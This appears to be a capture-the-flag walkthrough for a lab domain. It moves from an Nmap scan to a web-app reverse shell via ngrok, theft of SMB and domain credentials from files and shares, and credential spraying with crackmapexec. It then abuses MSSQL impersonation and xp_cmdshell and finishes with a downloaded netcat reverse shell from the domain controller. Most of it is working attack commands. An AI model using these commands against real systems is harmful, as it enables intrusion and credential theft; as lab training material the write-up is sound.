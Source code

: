 ### Flag 1
#### 1. Nmap Scan

First, we need to run an Nmap scan on the target domain to identify open ports and services.

```bash
nmap graylog.hackerverse.games
```

**Expected Output:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy
```

The key port for our attack is port 8080, which hosts the web application.

#### 2. Crafting the Python Payload

Clone the payload from the Github

```python
https://github.com/monrax/flask-image-bgremover/tree/demo/ctf
```

#### 3. Setting Up the Listener

We need to start a listener on our machine to catch the reverse shell:

```bash
cd /home/ubuntu/flask-image-bgremover-demo-ctf/ctf/scripts
python3 rshell.py
```

To handle potential NAT issues, we can use `ngrok` for port forwarding:

```bash
ngrok tcp 5003
```

Update the Python payload with the forwarded IP and port from `ngrok`.

#### 6. Receiving the Reverse Shell

After setting up a listener, run the `dropin.sh` from the location above with the URL & details of the webserver.

```bash
./dropin.sh
```
This will get you the reverse shell as.
#### 7. Enumeration

Perform enumeration to gather information about the system:

```bash
ls /var/www/DomainStuff/Creds
cat /var/www/DomainStuff/Creds/SMBPassCode.txt
```

Example SMB credentials might look like this:

```
Username: samba
Password: The_dataSMBPasscode12
```

#### 8. Checking Domain Membership

Check if the machine is domain-joined:

```bash
realm list
```

Example output might indicate the domain `hackr.games`.

#### 9. Exploring SMB Shares

Check open ports and SMB shares:

```bash
netstat -tuln | grep 'LISTEN'
smbclient -L \\\\localhost\\ -U samba%'The_dataSMBPasscode12'
```

If `MyDomainAccount` is listed, connect to it:

```bash
smbclient \\\\localhost\\MyDomainAccount -U samba%'The_dataSMBPasscode12'
```

Use `mget` to download files:

```bash
mget DomainAccount.txt
cat DomainAccount.txt
```

You may find credentials like:

```
hackr.games\operation:TheOpsPrivs@123
```

Switch to the `operation` user:

```bash
su operation@hackr.games
```

Check the home directory for flags:

```bash
ls /home/operation@hackr.games
cat /home/operation@hackr.games/flag.txt
```

**Flag 1:**
```
flag{S4Mb4_Sh4r3_Sh0uld_Not_C0Nt4in_Cr3d$}
```

### Flag 2
#### 10. Domain Controller Access

Identify the domain controller by checking `/etc/hosts`:

```bash
cat /etc/hosts
```

Example entries:

```
10.10.1.252 hackr.games
10.10.1.252 dc.hackr.games
10.10.0.91  web.hackr.games
```

Spray the credentials on the domain controller:

```bash
crackmapexec smb 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

If successful, use `winrm` to log in:

```bash
crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

#### 11. Exploring MSSQL Server

Check open ports and MSSQL server login:

```bash
nmap 10.10.1.252
crackmapexec mssql 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

Login to MSSQL:

```bash
impacket.mssqlclient HACKR/operation:'TheOpsPrivs@123'@10.10.1.252 -windows-auth
```

Enumerate impersonation privileges:

```sql
enum_impersonate
```

The above `enum_impersonate` command will list the impersonation privileges. Here we can see that the user `operation` can impersonate the user `sys-admin`. Let's do it and get the flag 2.

This will impersonate the user:

```sql
exec_as_login sys-admin
```

List all of the tables user `sys-admin` has access to:

```sql
select * from information_schema.tables
```

We found the table named `flag`, let's dump the flag out and emulate the data exfiltration:

```sql
select * from flag
```

Output:
```
flag{MSSQL_Flag_With_IMPERSONATION}
```

### Flag 3
#### 12. Enabling `xp_cmdshell`

Enable `xp_cmdshell` to execute system commands:

```sql
enable_xp_cmdshell
```

#### 13. Getting Reverse Shell on Domain Controller

Prepare the environment for a reverse shell by taking another reverse shell and running these commands so we can get the shell from the `DC` using `netcat`:

```bash
crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X 'mkdir C:\Temp'  

crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X "Invoke-WebRequest -Uri 'https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip' -OutFile \"C:\Temp\netcat-win32-1.11.zip\""

crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X "Expand-Archive -Path \"C:\Temp\netcat-win32-1.11.zip\" -DestinationPath \"C:\Temp\""
```

Execute `nc` to get a shell, but before this get another reverse shell on a web server and start a listener on it:

```bash
nc -nvlp 3333
```

Now we can do it:

```sql
xp_cmdshell "powershell -ep bypass C:\Temp\netcat-1.11\nc64.exe 10.10.0.91 3333 -e powershell"
```

Read the final flag:

```bash
type C:\Users\Administrator\Desktop\flag.txt
```

**Flag 3:**
```
flag{The_XP_cmd_is_R34lly_B4DD!!!}
```
